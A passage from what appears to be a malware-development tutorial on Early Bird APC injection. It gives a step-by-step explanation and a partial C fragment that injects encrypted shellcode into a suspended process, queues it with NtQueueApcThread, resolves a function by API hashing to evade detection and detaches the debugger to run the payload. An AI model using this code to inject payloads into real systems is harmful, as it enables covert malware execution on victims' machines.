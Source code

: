 Now that we have a high level overview about what APCs are, we can talk about APC injection. The idea behind is pretty simple: queue your shellcode to be executed by a thread in another process when it enters an alertable state.

The order may vary, but typically APC injection does the following:

1. Get a handle on a remote process and one of its threads
2. Allocate memory in that process and write your shellcode there
3. Use `QueueUserAPC()` or it's syscall equivalent `NtQueueApcThread()`to queue your shellcode address to the threads APC
4. Once the thread resumes and enters in an alertable state, it'll eventually executes your shellcode

This brings us the main problem that APC injection has: how do you know when a thread will enter into an alertable state and actually execute the APC? Well..you don't.

But that leads us to a more "controlled" variant of APC injection, called *Early Bird APC Injection*, which allows us to control exactly that uncertainty entirely :P !

#### Where are those birds ?

Let's look at some code and see how Early Bird APC Injection is actually implemented. Again, I'm gonna continue where we left in `main.c`.

```c
printf("[i] Creating suspended process..\n");
	// Creating a suspeneded process now
	if (!CreateSuspendedProcess(TARGET_PROCESS, &dwProcessId, &hProcess, &hThread)) {

		printf("[-] Failed to create suspended process!\n");
		return -1;
	}
	printf("[+] Process created with PID: %d\n", dwProcessId);

	printf("[i] Injecting the shellcode into the process..\n");
	// Doing the APC Injection
	if (!APCInjection(hProcess, pClearText, sEncPayload, &pProcess)) {

		return -1;
	}
	
	printf("[i] Running the shellcode via NtQueueApcThread..\n");
	// Running the thread via NtQueueAPCThread
	if ((STATUS = NTQAT(hThread, pProcess, NULL, NULL, NULL)) != 0) {

		printf("[-] NtQueueApcThread failed!\n");
		return -1;
	}
	
	// API Hashing
	cDAPS cDAPSu = (cDAPS) GetProcAddressH(GetModuleHandleH(#-KERNELBASE_VALUE-#), #-DAPS_VALUE-#);

	printf("[i] Position of DAPsu: 0x%p\n", cDAPSu);
	// Stopping the debugging of the process, which launches the payload
	cDAPSu(dwProcessId);
	printf("[+] Payload executed!\n");
```
